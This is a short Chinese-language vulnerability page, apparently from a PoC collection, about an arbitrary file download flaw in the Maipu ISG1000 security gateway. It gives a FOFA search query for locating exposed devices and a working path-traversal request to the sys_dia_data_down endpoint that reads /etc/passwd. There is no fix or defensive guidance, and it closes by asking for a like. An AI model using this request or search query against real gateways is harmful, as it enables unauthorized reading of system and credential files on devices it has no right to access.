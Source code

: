 # 迈普 ISG1000安全网关 sys_dia_data_down 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>迈普 ISG1000安全网关</a-checkbox></br>

## FOFA

<a-checkbox checked>title="迈普通信技术股份有限公司"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210604151806596.png)



请求的 POC 为



```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```



![img](../../../.vuepress/public/img/image-20210604152228481.png)



若有收获，就点个赞吧